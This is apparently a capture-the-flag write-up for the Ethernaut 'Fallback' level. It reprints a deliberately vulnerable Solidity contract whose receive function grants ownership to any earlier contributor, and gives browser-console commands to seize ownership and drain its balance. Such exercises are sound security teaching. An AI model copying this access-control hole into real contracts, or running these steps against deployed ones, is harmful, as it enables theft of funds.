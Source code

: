 # Ethernaut - Level 1 - Fallback

Contract code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

Objectives:
```
You will beat this level if

	1. you claim ownership of the contract
	2. you reduce its balance to 0
```

As we can see from the code, there is a function called "contribute" that allow us to deposit a value inside the contributions mapping. We can only send less than 0.001 ether.
Another interesting function is: 
```
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

This is a so-called fallback function in solidity, that we can trigger with, for example, sendTransaction(object). With this function we can change the owner of the contract, and then call withraw(). 

Another important piece of the contract is the onlyOwner modifier: this is a modifier that is used to implement an Access Control policiy on the withdraw method: only the owner of the contract can call this method.

So the exploit plan is this:

	1. Deposit < 0.001 ether via the contribute function
	2. Call receive fallback function to become the owner of the contract
	3. Call withdraw

From the browser's console we can interact with the contract.

``` 
contract.contribute.sendTransaction({from: player, to: contract.address, value: toWei("0.0001")});
contract.sendTransaction({from: player, to: contract.address, value: toWei("0.007")})
contract.owner //Now we are the owner of the contract
contract.withdraw()
//Then you need to submit the instance
```
